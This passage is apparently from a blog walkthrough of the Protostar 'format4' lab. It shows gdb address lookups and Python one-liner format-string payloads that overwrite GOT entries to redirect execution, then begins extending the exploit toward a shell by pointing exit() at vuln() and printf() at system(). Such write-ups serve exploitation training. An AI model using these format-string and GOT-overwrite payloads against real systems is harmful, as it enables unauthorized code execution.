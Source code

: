 And look for the memory address of the `hello()` function.

```shell
(gdb) print &hello
$1 = (void (*)(void)) 0x80484b4 <hello>
```

With all that information, we can calculate that the 4 `n`'s we need to supply
to the `%nu` format string parameters are 126, 208, 128 and 260. If you are
unsure how to do this, you can go back to format 3's explanation.

Putting everything together,

```shell
user@protostar:/tmp$ python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04\x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08' + '%x.'*3 + '%126u%n%208u%n%128u%n%260u%n'" | /opt/protostar/bin/format4
200.b7fd8420.bffff5d4.                                                                                                                      16843009                                                                                                                                                                                                        16843009                                                                                                                        16843009                                                                                                                                                                                                                                                            16843009
code execution redirected! you win
```

While this is the end of the challenge itself, it would be boring to end this
blog post without a shell. We will use the same GOT entry overwrite method
to obtain code execution on the target binary.

There is however a problem. If we overwrite `exit()` with `system()`, we will
end up calling `system(1)` and we have no way to change that value. Instead,
we will overwrite `exit()` with `vuln()` and `printf()` with `system()` so that
we can pass our shell command through `stdin` in the second call to `vuln()`.

We look for the memory address of the `system()` and `vuln()` functions.

```shell
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xb7ecffb0 <__libc_system>
(gdb) print &vuln
$1 = (void (*)(void)) 0x80484d2 <vuln>
```

We successfully overwrite the GOT entries for `exit()` and `printf()`.

```shell
user@protostar:~$ python -c "print '\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08\x1c\x97\x04\x08\x1d\x97\x04\x08\x1e\x97\x04\x08\x1f\x97\x04\x08' + '%x.'*3 + '%n%n%n%n%n%n%n%n'" > a
(gdb) run < a
Starting program: /opt/protostar/bin/format4 < a
200.b7fd8420.bffff5b4.

Program received signal SIGSEGV, Segmentation fault.
0x36363636 in ?? ()

(gdb) x/x 0x0804971c
0x804971c <_GLOBAL_OFFSET_TABLE_+28>:   0x36363636
(gdb) x/x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x36363636
```
